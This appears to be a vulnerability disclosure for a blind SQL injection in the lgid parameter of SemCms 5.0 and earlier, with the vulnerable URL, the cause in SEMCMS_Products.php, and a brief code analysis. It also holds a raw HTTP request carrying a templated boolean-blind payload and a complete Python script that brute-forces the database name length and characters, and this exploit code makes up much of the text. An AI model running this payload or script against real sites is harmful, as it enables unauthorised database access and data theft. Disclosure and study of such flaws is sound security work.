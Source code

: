 # SemCms <= 5.0 has a SQL Injection Vulnerability
##### Vulnerability Location: SEMCMS_Products.php
##### Affected Range: SemCms <= 5.0
##### Vulnerability Cause: SemCms <= v5.0 was discovered to contain a SQL injection vulnerability.This allows an attacker to execute arbitrary code via the lgid parameter in the SEMCMS_Products.php component.
##### Vulnerability Impact: Obtain database access rights, and even DBA permissions.
##### Link:https://www.sem-cms.com/

# Vulnerability recurrence

After entering the background.There is an injection vulnerability in lgid. Construct the URL address: http://localhost:83/admin/SEMCMS_Products.php? searchml=&indextjs=&lgid=

![image](https://github.com/user-attachments/assets/d8d9991b-67d4-45ee-8ce2-cf366f48473e)

When lgid=2, there is no content on the page:

![image](https://github.com/user-attachments/assets/fa94d3c7-3147-494a-8ab5-7f7082c7b39e)

The next step is to determine the length of the database name:

![image](https://github.com/user-attachments/assets/061dfdc0-a731-4893-84d1-915f70ec863b)
![image](https://github.com/user-attachments/assets/b7046320-fc55-4893-8c89-331714309f16)

Finally, the length of the database name is 8. Next, determine what the specific value of the database name is?

![image](https://github.com/user-attachments/assets/66f0dab6-1ebc-40e8-ba3d-085cb9709bce)

Finally, the database username is obtained as semcms50, and the yakit data packet:

```
GET /admin/SEMCMS_Products.php?searchml=&indextjs=&lgid=if(substr(database(),{{int(1-8)}},1)+like+"{{payload(word)}}",1,2) HTTP/1.1
Host: localhost:83
Sec-Fetch-Mode: navigate
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Fetch-Site: none
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate, br, zstd
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
```
# Code Analysis
Line 135 of `SEMCMS_Products.php`

![image](https://github.com/user-attachments/assets/0ede7dfe-6871-49e0-9491-a857bd2bb00b)

Among them, $CatID is controllable, and it doesn't matter much whether $Searchp is controllable or not. Both can execute SQL statements.
The lgid parameter is obtained through the GET method and directly concatenated into the SQL statement, thus there is an SQL injection vulnerability

# Vulnerability exploitation script

```
import requests
import string
import time
from urllib.parse import parse_qs, urlencode
# 需要通过页面的回显来修改判断的条件
# 需要后台路径
# 需要更新Cookie

# 发送请求
def send_request(url, headers):
    try:
        response = requests.get(
            url,
            headers=headers,
            timeout=10,
            verify=False
        )

        return response
    except Exception as e:
        print(f"请求失败: {e}")
        return None


# 爆破数据库名长度
def database_length():
    print("[*] 开始爆破数据库名长度...")
    for i in range(1,20):
        base_url = url + f'if(length(database())>{i},999,1)'
        resp = send_request(base_url,header).text
        if 'Smart' in resp:
            print("数据库名长度为：" + str(i))
            return i 
            

# 爆破数据库名
def exploit_sql_injection(url, header, db_len):
    
    
    db_name = ""
    
    max_length = 32  # 假设数据库名最大长度
    
    # 字符集：小写字母、数字、常见符号
    charset = string.ascii_lowercase + string.digits + "-$@! "
    

    print("[*] 开始爆破数据库名...")

    for i in range(1,db_len+1):
        for j in charset:
            base_url = url + f'if(substr(database(),{i},1) like "{j}",1,999)'
            resp = send_request(base_url, header).text
            if 'Smart' in resp:
                db_name += str(j)
                print(f"[+] 第{i}个位置的字符: '{j}' 匹配成功, 当前: {db_name}")
                break

    
    print(f"[*] 爆破完成! 数据库名: {db_name}")
    return db_name

if __name__ == "__main__":
    url = f"http://192.168.124.6:81/VvK4qw_Admin/SEMCMS_Products.php?searchml=&indextjs=&lgid="
    
    db_len = 0

    header = {
        "Cookie":"scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b"
    }

    db_len = database_length()

    if(db_len != 0):
        exploit_sql_injection(url, header,db_len)
    

```
